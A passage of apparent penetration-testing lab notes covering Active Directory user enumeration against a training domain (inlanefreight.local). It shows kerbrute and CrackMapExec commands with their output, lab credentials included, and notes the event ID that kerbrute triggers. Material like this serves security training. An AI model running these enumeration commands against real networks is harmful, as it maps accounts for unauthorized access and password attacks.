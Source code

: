 **Kerbrute User Enumeration**

```
kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt 

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (9cfb81e) - 02/17/22 - Ronnie Flathers @ropnop

2022/02/17 22:16:11 >  Using KDC(s):
2022/02/17 22:16:11 >  	172.16.5.5:88

2022/02/17 22:16:11 >  [+] VALID USERNAME:	 jjones@inlanefreight.local
2022/02/17 22:16:11 >  [+] VALID USERNAME:	 sbrown@inlanefreight.local
[...]
```

Be aware that using kerbrute will generate event ID [4768: A Kerberos authentication ticket (TGT) was requested](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4768).

### Credentialed Enumeration to Build our User List

With valid credentials, we can use any of the tools stated previously to build a user list.

**Using CrackMapExec with Valid Credentials**

```
sudo crackmapexec smb 172.16.5.5 -u htb-student -p Academy_student_AD! --users

[sudo] password for htb-student: 
SMB         172.16.5.5      445    ACADEMY-EA-DC01  [*] Windows 10.0 Build 17763 x64 (name:ACADEMY-EA-DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] INLANEFREIGHT.LOCAL\htb-student:Academy_student_AD! 
SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] Enumerated domain user(s)
SMB         172.16.5.5      445    ACADEMY-EA-DC01  INLANEFREIGHT.LOCAL\administrator                  badpwdcount: 1 baddpwdtime: 2022-02-23 21:43:35.059620
SMB         172.16.5.5      445    ACADEMY-EA-DC01  INLANEFREIGHT.LOCAL\guest                          badpwdcount: 0 baddpwdtime: 1600-12-31 19:03:58
[...]
```

### Practical example:

I was able to retrieve 56 valid users with this simple command:

```
kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt
```
